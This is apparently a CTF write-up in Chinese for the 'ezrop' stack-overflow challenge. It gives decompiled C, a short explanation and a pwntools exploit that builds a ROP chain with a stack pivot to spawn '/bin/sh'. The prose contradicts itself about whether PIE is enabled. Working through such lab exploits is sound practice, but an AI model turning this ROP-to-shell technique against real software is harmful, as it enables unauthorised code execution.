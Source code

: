 ```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[48]; // [rsp+0h] [rbp-30h] BYREF

  init(argc, argv, envp);
  puts("You can use stackoverflow.");
  puts("But only overflow a bit more...");
  puts("And you must print first.");
  memset(s, 0, 0x20uLL);
  write(1, s, 0x30uLL);
  read(0, s, 0x40uLL);
  return 0;
}
```

这个题目本身比较简单，本身给了你一个泄露，又只开了PIE，通过这个write的泄露可以拿到libc地址，考虑到题目还给了libc，预期解可能是找libc里面的/bin/sh字符串

但是既然没有开PIE，就没有必要这么麻烦了，直接在数据段写入/bin/sh就行

~~虽然大致脚本很早就写完了，但是运行发现了一些令人无语的错误~~

**exp**

```python
from pwn import*

p = process('./ezrop')
#p = gdb.debug('./ezrop')

m = u64(p.recv(40)[-8:])

payloads = p64(0x400863) + b'/bin/sh\0' + p64(0x400600)

payloads += cyclic(0x18)
payloads += p64(0x601848+0x30) + p64(0x4007d9)

p.send(payloads)

sleep(1)

payloads = p64(0x4006fa) + p64(0x400863) + p64(0x601868) + p64(0x400600) 
payloads += b'/bin/sh\0'
payloads += b'/bin/sh\0'
payloads += p64(0x601848-0x8) + p64(0x4007f9)

p.send(payloads)

p.interactive()

#0x00007f7b3ce92bb0      0x00007f7b3ccf8450
```


